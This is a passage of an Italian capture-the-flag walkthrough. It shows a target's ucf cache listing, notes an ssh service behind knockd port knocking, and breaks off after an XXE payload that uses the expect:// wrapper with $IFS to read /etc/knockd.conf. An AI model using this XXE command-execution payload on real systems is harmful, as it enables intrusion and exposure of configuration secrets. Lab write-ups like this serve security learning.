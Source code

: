 ```

# don't delete the 'COMMIT' line or these rules won't be processed
COMMIT
/var/lib/ucf/cache/:
total 52K
-rw-r--r-- 1 root root 1.3K May 10 02:25 :etc:default:grub
-rw-r--r-- 1 root root   68 Apr 22 13:43 :etc:php5:mods-available:curl.ini
-rw-r--r-- 1 root root   64 Apr 22 13:43 :etc:php5:mods-available:gd.ini
-rw-r--r-- 1 root root   83 Apr 22 13:43 :etc:php5:mods-available:opcache.ini
-rw-r--r-- 1 root root   66 Apr 22 13:43 :etc:php5:mods-available:pdo.ini
-rw-r--r-- 1 root root   76 Apr 22 13:43 :etc:php5:mods-available:pdo_sqlite.ini
-rw-r--r-- 1 root root   76 Apr 22 13:43 :etc:php5:mods-available:readline.ini
-rw-r--r-- 1 root root   73 Apr 22 13:43 :etc:php5:mods-available:sqlite3.ini
-rw-r--r-- 1 root root 1.7K Apr 18  2013 :etc:rsyslog.d:50-default.conf
-rw-r--r-- 1 root root 1004 Feb 28  2014 :etc:ufw:after.rules
-rw-r--r-- 1 root root  915 Feb 28  2014 :etc:ufw:after6.rules
-rw-r--r-- 1 root root 2.7K Feb 28  2014 :etc:ufw:before.rules
-rw-r--r-- 1 root root 3.2K Feb 28  2014 :etc:ufw:before6.rules
```


Tra le altre cose notiamo che e' attivo il servizio ssh : 


![Schermata da 2019-08-25 07-12-23](https://user-images.githubusercontent.com/54471416/63649133-cd9fa100-c707-11e9-9eb9-0db1308276a1.png)


questo pero' non e' raggiungibile dall'esterno, quindi si potrebbe pensare che come il servizio http, sshd sia dietro un controllo di port knocking.
Cerchiamo  delle informazioni a riguardo, ricordando che abbiamo notato la presenza del servizio knockd.
Troviamo il file /etc/knockd.conf che oltre a sembrare leggibile potrebbe dare degli spunti interessanti per i nostri scopi.

Procediamo :

cookies.txt

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ELEMENT email ANY >
<!ELEMENT password ANY >
<!ENTITY xxe SYSTEM "expect://cat$IFS'/etc/knockd.conf'">
]>

<root>
   <email>&xxe;</email>
   <password>aaa</password>
</root>
  
```

Mandiamo in esecuzione :
